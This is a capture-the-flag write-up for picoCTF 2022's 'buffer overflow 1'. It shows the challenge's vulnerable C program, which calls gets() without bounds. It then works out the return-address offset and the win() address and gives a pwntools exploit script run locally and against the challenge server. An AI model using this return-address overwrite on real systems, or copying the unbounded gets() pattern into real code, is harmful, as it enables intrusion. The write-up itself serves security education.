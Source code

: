# buffer overflow 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2022, Binary Exploitation
Author: SANJAY C / PALASH OSWAL

Description:
Control the return address

Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using nc saturn.picoctf.net 64722

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.
```
Challenge link: [https://play.picoctf.org/practice/challenge/258](https://play.picoctf.org/practice/challenge/258)

## Solution

### Analyze the given files

Let's start by looking at the given files. First the C source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
We have a `main` function that calls a `vuln` function that is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) due to the unbounded `gets` call. If we input more than `BUFSIZE`, that is 32 characters/bytes, we can overwrite the return address on the stack to call the `win` function instead of returning to `main`.

The `vuln` file is a 32-bit ELF binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ file vuln        
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

### Manually identifying the offset

Next, we need to identify the offset on the stack to the return address from `vuln`. If we send a specific sequence of characters that is a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) we can easily calculate the offset to the memory address. 

Creation of such a sequence can be done with [pwntools](https://docs.pwntools.com/en/stable/index.html) `cyclic` or [metasploit's](https://www.metasploit.com/) `msf-pattern_create`.

And the lookup of the offset can then be done with `cyclic` or `msf-pattern_offset`.

We create a string that is a bit longer than `32` bytes, say `100` bytes.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic 100   
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic 100 > pattern_100.txt
```

Then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ cat pattern_100.txt | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                cat pattern_100.txt | 
zsh: segmentation fault  ./vuln
```

The returned value is `0x6161616c`. Let's look this up
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic -l 0x6161616c  
44
```

So the offset on the stack to the return address is `44` bytes.

### Get the addess of the win function

Now we need to find out the virtual address of the `win` function.  
This can be done with `objdump`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ objdump -t vuln | grep win
080491f6 g     F .text  0000008b              win
```

Or with `gdb`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ gdb -batch -ex 'info functions' vuln | grep win
0x080491f6  win
```
So the address to `win` is `0x080491f6`.

### Write an exploit

Let's write a small exploit in Python with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html)
```python
#!/usr/bin/python

from pwn import *
import sys

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 44
padding = b'A'

win = p32(0x080491f6)      # Address to win function
payload = padding*offset + win
    
sys.stdout.buffer.write(payload)
```

Note that I used `sys.stdout.buffer.write` here rather than `print`.  
`print` will most likely UTF-8 encode your output and it won't work!

And then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ echo "picoCTF{fake_flag}" > flag.txt          

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/python local_exploit.py | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{fake_flag}
zsh: done                ~/python_venvs/pwntools/bin/python local_exploit.py | 
zsh: segmentation fault  ./vuln
```
It works, but later the program crashes due to un invalid memory address after the `win` function.  
We can ignore this.

### Get the flag

Finally, we modify the Python script to connect to the server instead
```python
#!/usr/bin/python

from pwn import *

SERVER = 'saturn.picoctf.net'
PORT = 64722

io = remote(SERVER, PORT)

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 44
padding = b'A'

win = p32(0x080491f6)      # Address to win function
payload = padding*offset + win
    
sys.stdout.buffer.write(payload)
    
io.sendline(payload)
print(io.recvallS())
io.close()
```

And then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/python remote_exploit.py             
[+] Opening connection to saturn.picoctf.net on port 64722: Done
[+] Receiving all data: Done (127B)
[*] Closed connection to saturn.picoctf.net port 64722
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [gdb - Linux manual page](https://man7.org/linux/man-pages/man1/gdb.1.html)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
- [Wikipedia - de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
